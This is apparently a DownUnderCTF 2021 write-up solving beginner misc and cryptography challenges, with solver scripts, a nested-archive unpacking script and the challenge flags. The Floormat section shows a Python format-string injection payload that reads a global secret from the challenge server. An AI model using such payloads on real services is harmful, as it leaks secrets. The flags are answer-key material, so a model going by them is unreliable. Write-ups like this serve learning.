



# **DownUnderCTF 2021**

<div align="center">
    
</div>

***

# Table of Content
* [Miscellaneous](#miscellaneous)
    * [Discord](#discord)
    * [The Introduction](#the-introduction)
    * [Twitter](#twitter)
    * [General Skills Quiz](#general-skills-quiz)
    * [rabbit](#rabbit)
    * [Floormat](#floormat)
* [Cryptography](#cryptography)
    * [Substitution Cipher I](substitution-cipher-i)
    * [Substitution Cipher II](substitution-cipher-ii)
***

# Miscellaneous

## Discord
How about you visit our help page? You know what they say when you need 'help' discord is there for support :)

**Author:** Crem

### Solution
The flag is at the `#request-support` channel on the [CTF discord channel](https://discord.gg/vXtuGXy)

### Flag
**`DUCTF{if_you_are_having_challenge_issues_come_here_pls}`**

## The Introduction
Are you ready to start your journey?

**Author:** Crem

`nc pwn-2021.duc.tf 31906`

### Solution
With the challenge we're given a command to run, this command (`nc`) connects to a server identified with the domain pwn-2021.duc.tf and interacts with a service running on port `31906`, running it gives us the following:

```
wh47 15 y0ur n4m3 h4ck3r?
```

Entering a name starts printing the hacker manifesto, this is an essay written in the 80s by "The Mentor" after his arrest and is considered a major piece of the hacker culture, the full essay is linked below and worth a read if you consider yourself part of the hacking community.

After printing the essay, the following line is written:
```
50 4r3 y0u 4c7u4lly 4 h4ck3r?
```
Answering yes will return you the flag (other answers might also work as I didn't check):

```
W3rni0, y0u w1ll n33d 7h15 0n y0ur duc7f j0urn3y 7h3n

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

DUCTF{w3lc0m3_70_7h3_duc7f_7hund3rd0m3_h4ck3r}

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


                   __
                  / \--..____
                   \ \       \-----,,,..
                    \ \       \         \--,,..
                     \ \       \         \  ,'
                      \ \       \         \ ``..
                       \ \       \         \-''
                        \ \       \__,,--'''
                         \ \       \.
                          \ \      ,/
                           \ \__..-
                            \ \
                             \ \
                              \ \   
                               \ \
                                \ \
                                 \ \
                                  \ \
                                   \ \
                                    \ \
```


### Flag 
**`DUCTF{w3lc0m3_70_7h3_duc7f_7hund3rd0m3_h4ck3r}`**

## Twitter
If you have been paying attention to our Twitter, we have been using flags in the background of our graphics this year. However, one of these flags stands out a bit more than the rest! Can you find it?

While you're there, why don't you give us a follow to keep up to date with DownUnderCTF!

**Author:** Crem

### Solution
This one is pretty guessy but the solution is written in the description so I guess I can't complain, this year the CTF graphics used flags from the previous competition, as can be seen here:

<div align="center">
    
</div>

But one of the graphics posted two weeks before the competition included the flag in a brighter color, try finding it in the image:

<div align="center">
    
</div>

(hint - look down)

### Flag
**`DUCTF{EYES_ON_THE_PRIZES}`**

## General Skills Quiz
QUIZ TIME! Just answer the questions. Pretty easy right?

**Author:** Crem

`nc pwn-2021.duc.tf 31905`

### Solution
This challenge requires you to decode and encode using different popular formats such as base64, binary and ROT13. Not enough time is given to do those manually, so I ended up writing the following python script that interacts with the server and performs the conversions (commented are the task required):
```python
from pwn import *
from urllib.parse import unquote
from base64 import b64decode, b64encode
from codecs import encode,decode

s = remote('pwn-2021.duc.tf',  31905)

# Ready to start
s.sendline()
# 1+1=?
s.recvuntil(': ')
s.sendline('2')
# Decode an hex string to decimal
s.recvuntil(': ')
s.sendline(str(int(s.recvline(),16)))
# Decode an hex string to ASCII letter
s.recvuntil(': ')
s.sendline(str(chr(int(s.recvline(),16))))
# Decode a URL encoded string
s.recvuntil(': ')
s.sendline(unquote(s.recvline(keepends=False).decode()))
# Base64 decode
s.recvuntil(': ')
s.sendline(b64decode(s.recvline()))
# Base64 encode
s.recvuntil(': ')
s.sendline(b64encode(s.recvline(keepends=False)))
# ROT13 decode
s.recvuntil(': ')
s.sendline(decode(s.recvline(keepends=False).decode(), 'rot_13'))
# ROT13 encode
s.recvuntil(': ')
s.sendline(encode(s.recvline(keepends=False).decode(), 'rot_13'))
# Binary decode
s.recvuntil(': ')
s.sendline(str(int(s.recvline(),2)))
# Binary encode
s.recvuntil(': ')
s.sendline(bin(int(s.recvline())))
# Best CTF competition
s.recvuntil('?')
# s.sendline('picoCTF')
s.sendline('DUCTF')
s.interactive()
```
I'll add a description for each encoding used later on, after doing all those tasks we're given the flag:
```
Bloody Ripper! Here is the grand prize!


   .^.
  (( ))
   |#|_______________________________
   |#||##############################|
   |#||##############################|
   |#||##############################|
   |#||##############################|
   |#||########DOWNUNDERCTF##########|
   |#||########(DUCTF 2021)##########|
   |#||##############################|
   |#||##############################|
   |#||##############################|
   |#||##############################|
   |#|'------------------------------'
   |#|
   |#|
   |#|
   |#|
   |#|
   |#|
   |#|
   |#|
   |#|
   |#|
   |#|
   |#|  DUCTF{you_aced_the_quiz!_have_a_gold_star_champion}
   |#|
   |#|
   |#|   
  //|\\
```
### Flag
**`DUCTF{you_aced_the_quiz!_have_a_gold_star_champion}`**

## rabbit
Can you find Babushka's missing vodka? It's buried pretty deep, like 1000 steps, deep.

**Author:** Crem + z3kxTa

[flag.txt](challenges//flag.txt)

### Solution
This type of challenge is really common and I've covered a variation of it before in [my writeup for TJCTF 2020](https://github.com/W3rni0/TJCTF_2020#zipped-up).

With the challenge we're given a file falsely named `flag.txt`, this file is actually a compressed file of either `bzip2`, `zip`, `gzip` or `xz` format. And, as the description for the challenge suggests, it contains another compressed file of the same type and so on. decompressing each file manually is plausible but will require a lot of work, so we can automate the process by scripting.

For this challenge I wrote the following bash script that for each file in the working directory checks its type, and if it of one of the above compression file formats, the script extract the content of the file and removes it. This process terminates only when there aren't any compressed files in the directory:

```bash
#!/bin/bash
get_flag() {
	for filename in $(pwd)/*; do
		echo "$filename"
		if [[ $(file --mime-type -b "$filename") == "application/x-bzip2" ]]
		then
			bunzip2 "$filename"
			rm "$filename"
			get_flag
			return
		elif [[ $(file --mime-type -b  "$filename") == "application/zip" ]]
		then
			mv $filename flag.zip
			unzip flag.zip
			rm flag.zip
			get_flag
			return
		elif [[ $(file --mime-type -b  "$filename") == "application/x-xz" ]]
		then
			mv $filename flag.xz 
			unxz -f flag.xz
			rm flag.xz
			get_flag
			return
		elif [[ $(file --mime-type -b  "$filename") == "application/gzip" ]]
		then
			mv $filename flag.gz
			gunzip flag.gz
			rm flag.gz
			get_flag
			return
		else
			cat "$filename"
			return
		fi
	done
}

get_flag
```

And by letting the script run for a while I got a text file containing the following string:
```
RFVDVEZ7YmFidXNoa2FzX3YwZGthX3dhc19oM3IzfQ==
```
I inferred by the symbols in the string that this is a base64 encoded message, and decoding it from base64 using [CyberChef](https://gchq.github.io/CyberChef/) I got the flag:

<div align="center">
    
</div>

### Flag
**`DUCTF{babushkas_v0dka_was_h3r3}`**

## Floormat
I've opened a new store that provides free furnishings and floormats. If you know the secret format we might also be able to give you flags...

**Author:** todo#7331

`nc pwn-2021.duc.tf 31903`

[floormat.py](challenges//floormat.py)

### Solution
The function str.format() is used to replace a string we control with an object, which gives us access to object's attributes, one of them is a dictionary of global variables in the init of the object, which contain the flag:
```python
from pwn import *

s = remote('pwn-2021.duc.tf', 31903)
# Ask for a custom format
s.sendline("my l33t format")
# Send Payload
s.sendline("{f.__init__.__globals__[FLAG]}")
s.sendline("F")
# Ask for one of the furnishing (not important which)
s.sendline("flutter")
s.interactive()
```
### Flag
**`DUCTF{fenomenal_flags_from_funky_formats_ffffff}`**

***

# Cryptography

## Substitution Cipher I
Just a simple substitution cipher to get started...

**Author:** joseph#8210

### Solution
the encryption is known and works letter by letter, thus we can find the encryption of each letter and use that to inverse the ciphertext:
```python
from string import printable

def encrypt(msg, f):
    return [chr(f.substitute(c)) for c in msg]

def decrypt(enc, f):
    subtitution_table = encrypt(printable.encode('utf-8'), f)
    return ''.join(printable[subtitution_table.index(c)] for c in enc)

P.<x> = PolynomialRing(ZZ)
f = 13*x^2 + 3*x + 7


enc = open('./output.txt', 'r').read().strip()
FLAG = decrypt(enc, f)
print(FLAG)
```
### Flag
**`DUCTF{sh0uld'v3_us3d_r0t_13}`**

## Substitution Cipher II
That's an interesting looking substitution cipher...

**Author:** joseph#8210

### Solution
Similar to the previous challenge, only difference that we need to find the polynomial now, we can do that by knowing that the flag starts with '`DUCTF{`' and ends with '`}`', and use lagrange interpolation to find the polynomial:

```python
from string import ascii_lowercase, digits, printable
CHARSET = "DUCTF{}_!?'" + ascii_lowercase + digits
n = len(CHARSET)

def encrypt(msg, f):
    ct = ''
    for c in msg:
        ct += CHARSET[f.substitute(CHARSET.index(c))]
    return ct

def decrypt(enc, f):
    subtitution_table = encrypt(CHARSET, f)
    return ''.join(CHARSET[subtitution_table.index(c)] for c in enc)

P.<x> = PolynomialRing(GF(n))
enc = open('./output.txt', 'r').read().strip()

X = [0, 1, 2, 3, 4, 5, 6]
Y = [CHARSET.index(c) for c in enc[:6]] + [CHARSET.index(enc[-1])]
points = zip(X,Y)
f = P.lagrange_polynomial(points)

FLAG = decrypt(enc,f)
print(FLAG)
```
### Flag
**`DUCTF{go0d_0l'_l4gr4fg3}`**

